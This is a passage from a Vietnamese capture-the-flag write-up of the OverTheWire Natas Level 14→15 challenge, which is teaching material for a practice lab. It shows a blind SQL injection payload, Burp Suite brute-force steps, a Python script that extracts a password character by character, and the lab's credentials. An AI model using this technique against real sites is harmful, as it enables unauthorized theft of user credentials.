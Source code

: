 Quan sát được rằng ta đã có được password của level tiếp theo

---
### 15. Lv14 -> Lv15

>username/password : **natas15/TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB** 

Đây là một trang web giúp kiểm tra thử username có tồn tại hay chưa.

![](https://i.imgur.com/Dp1DUEl.png)

Thử kiểm tra `username=natas16`  thì có thể thấy user tồn tại. Vậy mục đích của chúng ta có thể là lấy được password của user này.

![](https://i.imgur.com/fPPKxIU.png)

Tuy nhiên có vẻ như ta không thể thực hiện được theo cách sử dụng câu lệnh union vì nó chỉ hiển thị là có hoặc không sự tồn tại của user. Có thể nhận định đây là một loại `Blind SQLi`. 

Vậy ta có thể thực hiện brute force từng ký tự password để của nó. Ví dụ ta có thể hỏi nó rằng password có bắt đầu bằng chữ `a` hay không bằng payload `natas16" and password like binary "a%" -- -` lúc này query sẽ là  

```
SELECT * from users where username="natas16" and password like binary "a%"-- -
```
Nếu có thì nó sẽ trả về `This user exists` còn không thì `This user doesn’t exist`.

Vậy ta chỉ cần thực hiện burpt-suite để brute force.

- Đầu tiên thực hiện Intercept gói tin với payload trên 

    ![](https://i.imgur.com/S4KHZKU.png)

- Sau đó đưa nó qua tab Intruder và chọn giá trị `a` để chuẩn bị brute-force. Set payload là brute-force từ `a->z,A->Z,0->9`
- Sau đó nhấn start attack để có thể dò. Ở đây có thể thấy giá trị đầu tiên đó chính là chữ `T`

    ![](https://i.imgur.com/wCHDgL9.png)

- Với payload để kiểm tra giá trị ở vị trí tiếp theo đó là `natas16" and password like binary "Ta%" -- -`. Và cứ tiếp tục như thế 
- Password cuối cùng của chúng ta sẽ là `TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V` 
    
Hoặc có thể sử dụng đoạn code python này để làm điều tương tự một cách đơn giản hơn 
```
import requests
import sys
from string import digits, ascii_lowercase, ascii_uppercase

url = "http://natas15.natas.labs.overthewire.org/"
charset = ascii_lowercase + ascii_uppercase + digits
sqli = 'natas16" AND password LIKE BINARY "'

s = requests.Session()
s.auth = ('natas15', 'TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB')

password = ""
while len(password) < 32:
    for char in charset:
        r = s.post('http://natas15.natas.labs.overthewire.org/', data={'username':sqli + password + char + "%"})
        if "This user exists" in r.text:
            sys.stdout.write(char)
            sys.stdout.flush()
            password += char
            break

```